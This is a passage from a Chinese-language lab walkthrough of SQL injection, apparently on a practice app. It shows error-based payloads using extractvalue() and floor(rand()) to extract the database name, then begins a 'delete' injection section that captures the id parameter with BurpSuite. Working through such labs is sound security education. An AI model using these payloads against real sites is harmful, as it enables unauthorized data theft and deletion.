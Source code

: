 ![image-20220131220053068](https://gitee.com/xxb667/img/raw/master/img/image-20220131220053068.png)



![image-20220131220155592](https://gitee.com/xxb667/img/raw/master/img/image-20220131220155592.png)

**extractvalue()函数：**

```sql
1' and extractvalue(1,concat('~',database())) #
```

![image-20220131220216506](https://gitee.com/xxb667/img/raw/master/img/image-20220131220216506.png)

**floor()函数：**

```sql
1' and (select 1 from (select count(*),concat('~',database(),'~',floor(rand(0)*2))as x from information_schema.tables group by x)a)#
```

![image-20220131220241153](https://gitee.com/xxb667/img/raw/master/img/image-20220131220241153.png)

- 获取其他数据库信息参照上面 insert 注入
- 只是闭合不同，
- 最后少加一个`）`



## 4.8."delete"注入

根据提示，我们按F12，

检查删除对应的链接

可以看到链接中有对应的id值

我们可以通过抓包通过改变id值对数据进行删除

![image-20220206221738106](https://gitee.com/xxb667/img/raw/master/img/image-20220206221738106.png)





### 抓包

点删除时用 BurpSuite 抓包

根据这个 id 去删除留言

抓包得到的id值为63

![image-20220206222016036](https://gitee.com/xxb667/img/raw/master/img/image-20220206222016036.png)

### 猜测sql语句为：

```sql
$query="delete from message where id=x";
```
